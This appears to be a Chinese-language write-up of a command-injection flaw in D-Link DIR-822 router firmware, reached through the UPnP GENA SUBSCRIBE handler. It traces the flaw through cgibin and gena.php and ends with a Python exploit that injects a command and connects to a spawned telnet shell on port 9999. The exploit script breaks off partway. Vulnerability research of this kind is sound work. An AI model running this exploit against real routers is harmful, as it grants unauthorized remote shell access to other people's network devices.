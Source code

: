 ```
binwalk -e DIR822A1_FW103WWb03.bin
```

使用file指令查看 squashfs-root/bin/busybox发现是mips架构的路由器,进入squashfs-root目录将htdocs/cgibin文件拷贝出来,放入IDA中分析。

genacgi_main函数是漏洞开始触发点，通过“REQUEST_URI”获取url后对其进行验证，然后进入sub_40FCE0。

[![](https://p1.ssl.qhimg.com/t010b889dc1ff5c080c.png)](https://p1.ssl.qhimg.com/t010b889dc1ff5c080c.png)

下图为sub_40FCE0函数，其中a1为上图中传入的url，通过xmldbc_ephp函数使用socket发送出去。

[![](https://p1.ssl.qhimg.com/t0116a5154a4156de7f.png)](https://p1.ssl.qhimg.com/t0116a5154a4156de7f.png)

数据现在由PHP文件`run.NOTIFY.php`进行处理，其中请求方法会被再次验证。

[![](https://p0.ssl.qhimg.com/t01d892db07fdd80c67.png)](https://p0.ssl.qhimg.com/t01d892db07fdd80c67.png)

该脚本会调用PHP函数`GENA_subscribe_new()`，并向其传递cgibin程序中`genacgi_main()`函数获得的变量，还包括变量`SHELL_FILE`。

文件：gena.php，函数`GENA_subscribe_new()`。

[![](https://p5.ssl.qhimg.com/t013a3430f360178844.png)](https://p5.ssl.qhimg.com/t013a3430f360178844.png)

`GENA_subscribe_new()`函数并不修改`$shell_file`变量。

gena.php，`GENA_notify_init()`函数。

[![](https://p1.ssl.qhimg.com/t018196e277cbf79db0.png)](https://p1.ssl.qhimg.com/t018196e277cbf79db0.png)

这就是变量`SHELL_FILE`结束的地方，它是通过调用PHP函数`fwrite()`创建的新文件的名称的一部分。这个函数被使用了两次：第一次创建文件，它的名字来自我们控制的`SHELL_FILE`变量以及`getpid()`的输出。第二次调用`fwrite()`向这个文件添加了一行，其中还使用了`rm`系统命令，以删除它自己。为了进行攻击，我们只需要插入一个反引号包裹的系统命令，然后将其注入到shell脚本中。



## 四、漏洞验证

exp如下，通过这个漏洞，我们可以利用telnet服务来进行访问。因为这个漏洞是UPnP协议漏洞，一般处于局域网才能使用。

```
import socket
import os
from time import sleep
# Exploit By Miguel Mendez &amp; Pablo Pollanco
def httpSUB(server, port, shell_file):
    print('\n[*] Connection `{`host`}`:`{`port`}`'.format(host=server, port=port))
    con = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    request = "SUBSCRIBE /gena.cgi?service=" + str(shell_file) + " HTTP/1.0\n"
    request += "Host: " + str(server) + str(port) + "\n"
    request += "Callback: &lt;http://192.168.0.4:34033/ServiceProxy27&gt;\n"
    request += "NT: upnp:event\n"
    request += "Timeout: Second-1800\n"
    request += "Accept-Encoding: gzip, deflate\n"
    request += "User-Agent: gupnp-universal-cp GUPnP/1.0.2 DLNADOC/1.50\n\n"
    sleep(1)
    print('[*] Sending Payload')
    con.connect((socket.gethostbyname(server),port))
    con.send(str(request))
    results = con.recv(4096)
    sleep(1)
    print('[*] Running Telnetd Service')
    sleep(1)
    print('[*] Opening Telnet Connection\n')
    sleep(2)
    os.system('telnet ' + str(server) + ' 9999')
serverInput = '192.168.0.1'
```